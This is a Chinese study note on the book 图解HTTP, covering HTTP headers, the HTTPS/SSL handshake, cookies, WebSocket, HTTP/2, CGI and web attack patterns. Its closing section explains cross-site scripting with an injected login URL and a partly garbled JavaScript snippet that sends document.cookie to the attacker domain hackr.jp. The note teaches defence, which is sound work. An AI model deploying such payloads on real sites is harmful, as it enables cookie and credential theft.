# 图解 HTTP 笔记

#### 请求报文首部字段 Accept

- 文本文件
  - text/html
  - text/plain
  - text/css ... 
  - application/xhtml+xml
  - application/xml ... 
- 图片文件
  - image/jpeg
  - image/gif
  - image/png ... 
- 视频文件
  - video/mpeg
  - video/quicktime ... 
- 应用程序使用的二进制文件
  - application/octet-stream
  - application/zip ... 

## HTTP 不足

- 通信使用明文（不加密），内容可能会被窃听

- 不验证通信方的身份，因此有可能遭遇伪装

- 无法证明报文的完整性，所以有可能已遭篡改 

- 无法确定请求发送至目标的 **Web** 服务器是否是按真实意图返回响应的那台服务器。有可能是已伪装的 **Web** 服务 

  器。

- 无法确定响应返回到的客户端是否是按真实意图接收响应的那个客户端。有可能是已伪装的客户端。 

- 无法确定正在通信的对方是否具备访问权限。因为某些 **Web** 服务器上保存着重要的信息，只想发给特定用户通 

  信的权限。

- 无法判定请求是来自何方、出自谁手。即使是无意义的请求也会照单全收。无法阻止海量请求下的 **DoS** 攻击（**Denial of Service**，拒绝服务攻击）。 

## HTTPS

HTTP 协议中没有加密机制，但可以通过和 SSL（Secure Socket Layer，安全套接层）或 TLS（Transport Layer Security，安全层传输协议）的组合使用，加密 HTTP 的通信内容。 

用 SSL建立安全通信线路之后，就可以在这条线路上进行 HTTP 通信了。与 SSL组合使用的 HTTP 被称为 HTTPS（HTTP Secure，超文本传输安全协议）或 HTTP over SSL。 



### SSL

SSL采用一种叫做公开密钥加密（Public-key cryptography）的加密处理方式。使用两把密钥的公开密钥加密方式很好地解决了共享密钥加密的困难。 

公开密钥加密使用一对非对称的密钥。一把叫做私有密钥（private key），另一把叫做公开密钥（public key）。顾名思义，私有密钥不能让其他任何人知道，而公开密钥则可以随意发布，任何人都可以获得。 

使用公开密钥加密方式，发送密文的一方使用对方的公开密钥进行加密处理，对方收到被加密的信息后，再使用自己的私有密钥进行解密。利用这种方式，不需要发送用来解密的私有密钥，也不必担心密钥被攻击者窃听而盗走。

#### **SSL证书认证方式**



#### HTTPS 通信方式



- 步骤 **1**： 客户端通过发送 Client Hello 报文开始 SSL通信。报文中包含客户端支持的 SSL的指定版本、加密组件（Cipher Suite）列表（所使用的加密算法及密钥长度等）。 

- 步骤 **2**： 服务器可进行 SSL通信时，会以 Server Hello 报文作为应答。和客户端一样，在报文中包含 SSL版本以及加密组件。服务器的加密组件内容是从接收到的客户端加密组件内筛选出来的。 

- 步骤 **3**： 之后服务器发送 Certificate 报文。报文中包含公开密钥证书。

- 步骤 **4**： 最后服务器发送 Server Hello Done 报文通知客户端，最初阶段的 SSL握手协商部分结束。 

- 步骤 **5**： SSL第一次握手结束之后，客户端以 Client Key Exchange 报文作为回应。报文中包含通信加密中使用的一种被称为 Pre-master secret 的随机密码串。该报文已用步骤 3 中的公开密钥进行加密。 

- 步骤 **6**： 接着客户端继续发送 Change Cipher Spec 报文。该报文会提示服务器，在此报文之后的通信会采用 Pre-master secret 密钥加密。 

- 步骤 **7**： 客户端发送 Finished 报文。该报文包含连接至今全部报文的整体校验值。这次握手协商是否能够成功，要以服务器是否能够正确解密该报文作为判定标准。 

- 步骤 **8**： 服务器同样发送 Change Cipher Spec 报文。 

- 步骤 **9**： 服务器同样发送 Finished 报文。 

- 步骤 **10**： 服务器和客户端的 Finished 报文交换完毕之后，SSL连接就算建立完成。当然，通信会受到 SSL的保护。从此处开始进行应用层协议的通信，即发送 HTTP 请求。 

- 步骤 **11**： 应用层协议通信，即发送 HTTP 响应。 

- 步骤 **12**： 最后由客户端断开连接。断开连接时，发送 close_notify 报文。上图做了一些省略，这步之后再发送 TCP FIN 报文来关闭与 TCP的通信。 

在以上流程中，应用层发送数据时会附加一种叫做 MAC（Message Authentication Code）的报文摘要。MAC 能够查知报文是否遭到篡改，从而保护报文的完整性。 

#### Session 管理及 Cookie 的应用

因为 HTTP 是无状态协议，即使当该用户下一次继续访问，也无法区分他与其他的用户。于是我们会使用 Cookie 来管理 Session，以弥补 HTTP 协议中不存在的状态管理功能。 

为减轻跨站脚本攻击（XSS）造成的损失，建议事先在 Cookie 内加上 httponly 属性。



## 当前HTTP的改进方法

#### Ajax

Ajax 的核心技术是名为 XMLHttpRequest 的 API，通过 JavaScript 脚本语言的调用就能和服务器进行 HTTP 通信。

但Ajax 仍未解决 HTTP 协议本身存在的问题。 



#### Commet

通常，服务器端接收到请求，在处理完毕后就会立即返回响应，但为了实现推送功能，Comet 会先将响应置于挂起状态，当服务器端有内容更新时，再返回该响应。

内容上虽然可以做到实时更新，但为了保留响应，一次连接的持续时间也变长了。期间，为了维持连接会消耗更多的资源。另外，Comet 也仍未解决 HTTP 协议本身存在的问题。 



#### Websocket

一旦建立起 WebSocket 协议的通信连接，之后所有的通信都依靠这个专用协议进行。

- 推送功能

  支持由服务器向客户端推送数据的推送功能。这样，服务器可直接发送数据，而不必等待客户端的请求。 

- 减少通信量

  只要建立起 WebSocket 连接，就希望一直保持连接状态。和 HTTP 相比，不但每次连接时的总开销减少，而且由于 WebSocket 的首部信息很小，通信量也相应减少了。 

JavaScript 可调用“The WebSocket API”（http://www.w3.org/TR/websockets/，由 W3C 标准制定）内提供的 WebSocket 程序接口，以实现 WebSocket 协议下全双工通信。



#### HTTP2.0

HTTP/2.0 在 2014 年 11 月实现标准化。 

- **SPDY** 

- **HTTP Speed** ＋ **Mobility** ：HTTP Speed ＋ Mobility 由微软公司起草，是用于改善并提高移动端通信时的通信速度和性能的标准。它建立在 Google 公司提出的 SPDY 与 WebSocket 的基础之上。 

- **Network-Friendly HTTP Upgrade** ：Network-Friendly HTTP Upgrade 主要是在移动端通信时改善 HTTP 性能的标准。 

|                        方向                         |            技术            |
| :-------------------------------------------------: | :------------------------: |
|                        压缩                         |       SPDY、Friendly       |
|                      多路复用                       |            SPDY            |
|                     TLS 义务化                      |      Speed＋ Mobility      |
|                        协商                         | Speed＋ Mobility，Friendly |
| 客户端拉曳（Client Pull）/服务器推送（Server Push） |      Speed＋ Mobility      |
|                      流量控制                       |            SPDY            |
|                      WebSocket                      |      Speed＋ Mobility      |

注：HTTP Speed ＋ Mobility 简写为 Speed ＋ Mobility，Network-Friendly HTTP Upgrade 简写为 Friendly。 

## Web应用

#### CGI

CGI（Common Gateway Interface，通用网关接口）是指 Web 服务器在接收到客户端发送过来的请求后转发给程序的一组机制。在 CGI 的作用下，程序会对请求内容做出相应的动作，比如创建 HTML等动态内容。 

使用 CGI 的程序叫做 CGI 程序，通常是用 Perl、PHP、Ruby 和 C 等编程语言编写而成。 



#### Servelt

Servlet 是一种能在服务器上创建动态内容的程序。Servlet 是用 Java 语言实现的一个接口，属于面向企业级 Java（JavaEE，Java Enterprise Edition）的一部分。 

之前提及的 CGI，由于每次接到请求，程序都要跟着启动一次。因此一旦访问量过大，Web 服务器要承担相当大的负载。而 Servlet 运行在与 Web 服务器相同的进程中，因此受到的负载较小（常驻内存）。Servlet 的运行环境叫做 Web 容器或 Servlet 容器。 

### 数据发布的格式及语言

- XML（eXtensible Markup Language，可扩展标记语言）是一种可按应用目标进行扩展的通用标记语言。

- RSS（简易信息聚合，也叫聚合内容）和 Atom 都是发布新闻或博客日志等更新信息文档的格式的总称。两者都用到了 XML。 

- JSON（JavaScript Object Notation）是一种以 JavaScript（ECMAScript）的对象表示法为基础的轻量级数据标记语言。能够处理的数据类型有 false/null/true/ 对象 / 数组 / 数字 / 字符串，这 7 种类型。 

## 网络安全

- **HTTP** 不具备必要的安全功能 

  在 Web 应用中，从浏览器那接收到的 HTTP 请求的全部内容，都可以在客户端自由地变更、篡改。所以 Web 应用可能会接收到与预期数据不相同的内容。 

  在 HTTP 请求报文内加载攻击代码，就能发起对 Web 应用的攻击。 通过 URL查询字段或表单、HTTP 首部、Cookie 等途径把攻击代码传 入，若这时 Web 应用存在安全漏洞，那内部信息就会遭到窃取，或 被攻击者拿到管理权限。 

#### 对 Web 应用的攻击模式

- 主动攻击：主动攻击（active attack）是指攻击者通过直接访问 Web 应用，把攻击代码传入的攻击模式。由于该模式是直接针对服务器上的资源进行攻击，因此攻击者需要能够访问到那些资源。主动攻击模式里具有代表性的攻击是 SQL注入攻击和 OS 命令注入攻击。 



- 被动攻击 ：被动攻击（passive attack）是指利用圈套策略执行攻击代码的攻击模式。在被动攻击过程中，攻击者不直接对目标 Web 应用访问发起攻击。 

  被动攻击通常的攻击模式如下所示。 

  - 步骤 **1**： 攻击者诱使用户触发已设置好的陷阱，而陷阱会启动发送已嵌入攻击代码的 HTTP 请求。 

  - 步骤 **2**： 当用户不知不觉中招之后，用户的浏览器或邮件客户端就会触发这个陷阱。 

  - 步骤 **3**： 中招后的用户浏览器会把含有攻击代码的 HTTP 请求发送给作为攻击目标的 Web 应用，运行攻击代码。 

  - 步骤 **4**： 执行完攻击代码，存在安全漏洞的 Web 应用会成为攻击者的跳板，可能导致用户所持的 Cookie 等个人信息被窃取，登录状态中的用户权限遭恶意滥用等后果。 

  被动攻击模式中具有代表性的攻击是跨站脚本攻击和跨站点请求伪造。 



#### 针对常规输入输出的安全对策

- 客户端的验证 

  多数情况下采用 JavaScript 在客户端验证数据。可是在客户端允许篡改数据或关闭 JavaScript，不适合将 JavaScript 验证作为安全的防范 对策。保留客户端验证只是为了尽早地辨识输入错误，起到提高 UI 体验的作用。 

- Web 应用端（服务器端）的验证

  - 输入值验证
  - 输出值转义

  Web 应用端的输入值验证按 Web 应用内的处理则有可能被误认为是具有攻击性意义的代码。输入值验证通常是指检查是否是符合系统业务逻辑的数值或检查字符编码等预防对策。 

#### 跨站脚本攻击

跨站脚本攻击（Cross-Site Scripting，XSS）是指通过存在安全漏洞的 Web 网站注册用户的浏览器内运行非法的 HTML标签或 JavaScript 进行的一种攻击。动态创建的 HTML部分有可能隐藏着安全漏洞。就这样，攻击者编写脚本设下陷阱，用户在自己的浏览器上运行时，一不小心就会受到被动攻击。 

跨站脚本攻击有可能造成以下影响。

- 利用虚假输入表单骗取用户个人信息。
- 利用脚本窃取用户的 **Cookie** 值，被害者在不知情的情况下，帮助攻击者发送恶意请求。
- 显示伪造的文章或图片。 

##### 攻击案例

- 在动态生成 **HTML** 处发生

**XSS** 是攻击者利用预先设置的陷阱触发的被动攻击跨站脚本攻击属于被动攻击模式，因此攻击者会事先布置好用于攻击的陷阱。

浏览器打开该 URI 后，直观感觉没有发生任何变化，但设置好的脚本却偷偷开始运行了。当用户在表单内输入 ID 和密码之后，就会直接发送到攻击者的网站（也就是 hackr.jp），导致个人登录信息被窃取。 

之后，ID 及密码会传给该正规网站，而接下来仍然是按正常登录步骤，用户很难意识到自己的登录信息已遭泄露。 

http://example.jp/login?ID="><span+s=" 对请求时对应的HTML源代码

> `
 
> 	 
> 
` 
>
> `<form action="http://example.jp/login" method="post" id="login"> `
>
> `
 
> ID
> 	<input type="text" name="ID" value="">
>  
`
>
> `</form> `

- 对用户 **Cookie** 的窃取攻击 

除了在表单中设下圈套之外，下面那种恶意构造的脚本同样能够以跨站脚本攻击的方式，窃取到用户的 Cookie 信息。 

>  

该脚本内指定的 http://hackr.jp/xss.js 文件。即下面这段采用 JavaScript 编写的代码。 

> var content = escape(document.cookie);
>
> document.write("
> document.write(content);
>
> document.write(">"); 

在存在可跨站脚本攻击安全漏洞的 Web 应用上执行上面这段 JavaScript 程序，即可访问到该 Web 应用所处域名下的 Cookie 信息。然 后这些信息会发送至攻击者的 Web 网站（http://hackr.jp/），记录在他的登录日志中。结果，攻击者就这样窃取到用户的 Cookie 信息了。

